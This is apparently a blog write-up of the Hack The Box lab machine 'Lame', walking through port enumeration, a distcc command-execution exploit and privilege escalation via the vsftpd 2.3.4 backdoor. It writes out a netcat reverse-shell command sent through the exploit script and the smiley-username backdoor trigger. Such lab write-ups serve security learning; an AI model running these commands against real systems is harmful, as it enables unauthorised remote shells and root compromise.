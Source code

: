 ```yaml
---
layout: post
title: Lame Writeup
date: '2019-12-17 10:38:21'
tags:
- hack-the-box
---
```


## Enumeration

Starting with Autorecon we find a bunch of ports open.

- FTP (21)
- SSH (22)
- SMB (139 & 445)
- Distccd (3632)

At this point I was having trouble with a SMBMap and the SMB NMAP scripts due to some Kali updates and some scripts moving to Python 3 but trying to import incompatible modules. This meant I didn't really look at SMB, which has an easy vulnerability to exploit, especially if you use Metasploit, and took a more interesting route instead.

### VSFTPD

From NMAP we can see that the FTP service is running VSFTPD 2.3.4:  
`21/tcp open ftp syn-ack ttl 63 vsftpd 2.3.4`

This version has an infamous [backdoor](https://en.wikipedia.org/wiki/Vsftpd) that you can trigger by sending a **:)** in the USER command. I tried this but found that the server seemed to have a firewall and so I couldn't connect to the backdoor on port 6200.

## Initial Compromise

After getting nowhere with VSFTPD I took a look at Distccd. The NMAP output showed that a script had determined that the service was vulnerable to distcc-cve2004-2687. Though there was a Metasploit module for this I took the hard route and had a look around for a standalone script to exploit this, or failing that I was going to recode the Metasploit module in Python.  
I found a [script](https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855) that seemed to do the job.

I ran this with `./distcc.py -t 10.10.10.3 -c "nc -e /bin/bash 10.10.14.11 1234&"`  
with a listener started with the usual `nc -lvp 1234`

This got me a shell as the `daemon` user. I then moved to `/home` and found the directory `makis`. Looking inside I found I could access user.txt and grabbed the key.

## Root Escalation

Running a PS I could see that vsftpd was running as root, so I wondered if I could now connect to the backdoor port if triggered.  
I telnetted to FTP on port 21 and ran

    USER BOB:)
    PASS ssss

I then did `nc localhost 6200` from my `daemon` shell on the server and grabbed myself a root shell.

<!--kg-card-end: markdown-->